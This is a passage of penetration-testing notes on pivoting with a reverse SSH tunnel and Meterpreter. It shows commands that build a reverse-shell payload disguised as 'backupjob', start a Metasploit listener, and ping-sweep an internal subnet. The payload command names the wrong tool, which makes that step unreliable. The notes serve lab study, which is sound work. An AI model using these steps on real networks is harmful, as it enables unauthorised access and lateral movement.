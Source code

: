 ```
ssh -R <internal-IP>:8080:0.0.0.0:8000 ubuntu@<ip> -vN
```
![[Pasted image 20230321150121.png]]

## Meterpreter Tunneling & Port Forwarding

Now let us consider a scenario where we have our Meterpreter shell access on the ubuntu server (the pivot host) and we want to perform enumeration scans through the pivot host but take advantage of the tools and conveniences of Meterpreter.

We can create a Meterpreter shell for the Ubuntu server

```
meterpreter -p linux/x64/meterpreter/reverse_tcp LHOST=tun0 -f elf -o backupjob LPORT=8080
```

Set up the Multi/Handler

```
use exploit/multi/handler
set lhost 0.0.0.0
set lport 8080
set payload linux/x64/meterpreter/reverse_tcp
run
[*] Started reverse TCP handler on 0.0.0.0:8080
```

#### Ping Sweep

```
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```

We could also perform a ping sweep using a `for loop` directly on a target pivot host that will ping any device in the network range we specify

**Linux**

```bash
for i in {1..254}; do (ping -c 2 172.16.5.$i | grep "bytes from" &); done
```

**Windows - CMD**

```batch
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```

**Windows - PowerShell**

```powershell
1..254 | % {"172.16.5.$($_): $(Test-Connection -Count 1 -comp 172.16.5.$($_) -quiet)}
```

There could be cases where the host's firewall blocks ping (ICMPJ), and the ping won't get us successful replies. In these cases we can perform TCP scan on the 172.16.5.0/23 network with Nmap. Instead of using SSH for port forwarding, we can also use Metasploit's post-exploitation routing module `socks_proxy` to configure a local proxy on our attack host. We will configure the SOCKS proxy for `SOCKS version 4a` and set the port on `9050` and route all traffic received via our Meterpreter session
